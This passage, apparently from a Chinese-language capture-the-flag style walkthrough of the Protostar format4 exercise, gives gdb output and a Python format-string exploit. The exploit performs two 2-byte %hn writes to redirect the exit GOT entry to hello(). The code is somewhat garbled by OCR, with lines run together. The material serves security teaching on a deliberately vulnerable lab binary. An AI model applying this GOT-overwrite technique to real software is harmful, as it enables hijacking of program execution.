 ```
**### Confirming 2-byte Overwrite on GOT Entry****(gdb) run < /home/user/format4/exploit** 
  Starting program: /opt/protostar/bin/format4 < /home/user/format4 
  /exploit Breakpoint 1, 0x08048503 in vuln () at format4/format4.c:20
  20 in format4/format4.c
**(gdb) x 0x8049724**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: 0x080483f2
**(gdb) continue**
  Continuing.
  $&� Breakpoint 2, 0x0804850f in vuln () at format4/format4.c:22
  22 in format4/format4.c
**(gdb) x 0x8049724**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x00080008**
```

很好。我们可以看到，我们的尝试在每个地址位置上都写了`0x0008`值。现在，我们只需要计算宽度字段，以便输出我们想要的值。( *** [*查看*](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-format-2-73ef08011a8c) `[*Format2*](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-format-2-73ef08011a8c)` [*练习，了解关于宽度字段计算的更多详细说明*](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-format-2-73ef08011a8c) )

```
**### Final Exploit**0x080484b4    **<-- Desired value & divide this into 2**
    ⬇  
  0x84b4      **<-- We will write this on "0x8049724"**
  0x0804      **<-- We will write this on "0x8049726"** **[Width Calculation #1: "0x8049724"]
____________________________________________________________________** *# Written value was "0008." In order to calculate the width field, we need to subtract "0008" from our desired value = "*0x84b4*"*(gdb) print 0x84b4 - 0x0008
  $5 = **33964****[exploit.py - Width Calculation #1]**#!/usr/bin/pythonimport structhello = 0x080484b4
exit_plt = 0x8049724
exit_plt2 = 0x8049726exploit = ""
exploit+= struct.pack("I",exit_plt)
exploit+= struct.pack("I",exit_plt2)
exploit+= **"%33964x%4$hn"**
exploit+= "%5$08n"print exploit**[gdb - Width Calculation #1]****(gdb) run < /home/user/format4/exploit**
*...(snip)...*
**(gdb) x 0x8049724**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: 0x84b4**84b4   <-- Written OK** **[Width Calculation #2: "0x8049726"]
____________________________________________________________________***# From the above calculation as you can see the second 2 byte location is also filled with "84b4" which means we need to subtract that value from our desired value to get the correct width field.***(gdb) print 0x0804 - 0x84b4**
  $6 = -31920*# Holdup... Negative output? Obviously, we cannot use this negative padding. In this case, however, there is a trick that we overflow into the next byte to get our desired value on the target location. Since we have a control on the stack, we can still overwrite the overflowed value. Example below:***(gdb) print 0x10804 - 0x84b4**
  $7 = **33616****[exploit.py - Width Calculation #2]**#!/usr/bin/pythonimport structhello = 0x080484b4
exit_plt = 0x8049724
exit_plt2 = 0x8049726exploit = ""
exploit+= struct.pack("I",exit_plt)
exploit+= struct.pack("I",exit_plt2)
exploit+= "%33964x%4$hn"
exploit+= **"%33616x%5$hn"**print exploit**[gdb - Width Calculation #2]****(gdb) run < /home/user/format4/exploit**
*...(snip)...*
**(gdb) x 0x8049724** 0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x080484b4   <-- Written OK**
**(gdb) continue**
  Continuing.
  **code execution redirected! you win   <-- Winning Statement!** Program exited with code 01.
```
